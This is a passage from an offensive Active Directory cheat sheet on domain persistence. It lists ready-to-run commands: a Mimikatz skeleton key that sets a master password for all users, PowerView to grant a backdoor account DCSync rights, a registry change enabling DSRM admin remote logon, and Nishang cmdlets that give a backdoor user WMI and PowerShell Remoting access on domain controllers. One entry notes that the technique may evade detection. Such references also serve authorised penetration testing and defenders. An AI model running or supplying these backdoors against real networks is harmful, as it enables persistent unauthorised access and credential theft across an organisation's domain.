 ### Mimikatz skeleton key attack

Run from DC. Enables password "mimikatz" for all users. 🚩

```plaintext
privilege::debug
misc::skeleton
```

### Grant specific user DCSync rights with PowerView

Gives a user of your choosing the rights to DCSync at any time. May evade detection in some setups.

```powershell
Add-ObjectACL -TargetDistinguishedName "dc=targetdomain,dc=com" -PrincipalSamAccountName BackdoorUser -Rights DCSync
``` 

### Domain Controller DSRM admin

The DSRM admin is the local administrator account of the DC. Remote logon needs to be enabled first.

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Now we can login remotely using the local admin hash dumped on the DC before (with `lsadump::sam`, see ['Dumping secrets with Mimikatz']({{<ref "#dumping-secrets-with-mimikatz" >}}) below). Use e.g. 'overpass-the-hash' to get a session (see ['Mimikatz']({{<ref "#mimikatz" >}}) above).

### Modifying security descriptors for remote WMI access

Give user WMI access to a machine, using [Set-RemoteWMI](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1) cmdlet from Nishang. Can be run to persist access to e.g. DCs.

```powershell
Set-RemoteWMI -UserName BackdoorUser -ComputerName dc.targetdomain.com -namespace 'root\cimv2'
```

For execution, see ['Command execution with WMI']({{<ref "#command-execution-with-wmi" >}}) above.

### Modifying security descriptors for PowerShell Remoting access

Give user PowerShell Remoting access to a machine, using [Set-RemotePSRemoting.ps1](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemotePSRemoting.ps1) cmdlet from Nishang. Can be run to persist access to e.g. DCs.

```powershell
Set-RemotePSRemoting -UserName BackdoorUser -ComputerName dc.targetdomain.com
```

For execution, see ['Command execution with PowerShell Remoting']({{<ref "#command-executin-with-powershell-remoting" >}}) above.

### Modifying DC registry security descriptors for remote hash retrieval using DAMP
